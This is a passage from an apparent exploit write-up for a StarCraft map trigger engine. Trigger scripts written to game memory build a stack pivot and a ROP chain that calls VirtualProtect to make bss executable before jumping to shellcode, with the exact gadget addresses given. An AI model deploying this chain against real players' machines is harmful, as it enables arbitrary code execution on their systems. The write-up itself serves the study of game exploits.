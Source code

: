 We can easily use the arbitrary write to set up a ROP chain in memory of pretty much arbitrary size but to go down that route we need to find a way to control the stack pointer. It is not yet clear how this can be achieved but in the meanwhile a useful primitive would be to be able to not just control EIP but also the first argument (top of the stack).

After searching for a while I discovered the following gadgets in the binary using [rp++](https://github.com/0vercl0k/rp):
```
0x0040ccb3: push [0x0050C63C]; call [0x0051BC08];
0x00469c72: pop ecx; add al, 0x89; pop esp; retn 0x8904;
```

This means that if we write a value `X` to address `0x0050C63C` and the value `0x00469c72` to address `0x0051BC08` and finally use the technique above to jump to address `0x0040ccb3`, it will result in setting the `esp` register to `X+0x8904+0x4` and then executing the instruction at `X`. This can be achieved by creating a trigger like this:

```
Trigger("All players"){
Conditions:
    Always();

Actions:
    MemoryAddr(0x0050C63C, Set To, 0x006d46f8); // The X value
    MemoryAddr(0x0051BC08, Set To, 0x00469c72); // The second gadget
    MemoryAddr(0x00512850, Set To, 0x0040ccb3); // Control EIP
    Leader Board Kills("a", "Terran Marine");
```

Now we have a stack pivot and use that to execute a ROP chain. We will write the ROP chain to the end of the `bss` and put a piece of shellcode right after it. The `bss` is not yet executable but that is what the ROP chain will solve. The ROP chain will simply call `VirtualProtect` to make the `bss` executable and then return into the shellcode. Luckily `VirtualProtect` is imported into the binary and its import entry is located at address `0x004FE0F0`. I used the following two gadgets to set up the jump:

```
0x00405cd2: pop eax; ret;
0x0040660e: jmp [eax];
```

I chose to place my ROP chain at address `0x6DD000` resulting in a script like this:

```
...
    // ROP chain start
    // 0x006d46f8 = 0x006dd000 - 0x8904 - 4
    MemoryAddr(0x006d46f8, Set To, 0x00405cd3); // ret
    // ROP chain main
    MemoryAddr(0x006dd000, Set To, 0x00405cd2); // pop eax; ret;
    MemoryAddr(0x006dd004, Set To, 0x004fe0f0); // &VirtualProtect
    MemoryAddr(0x006dd008, Set To, 0x0040660e); // jmp [eax] -> VirtualProtect
    MemoryAddr(0x006dd00c, Set To, 0x0040650b); // ret -------------
    MemoryAddr(0x006dd010, Set To, 0x006dd000); // lpAddress       |
    MemoryAddr(0x006dd014, Set To, 0x00000100); // dwSize          |
    MemoryAddr(0x006dd018, Set To, 0x00000040); // flNewProtect    |
    MemoryAddr(0x006dd01c, Set To, 0x006dd000); // lpflOldProtect  |
    MemoryAddr(0x006dd020, Set To, 0x006dd024); // &shellcode <----|
...
    Leader Board Kills("a", "Terran Marine"); // Trigger exploit
```
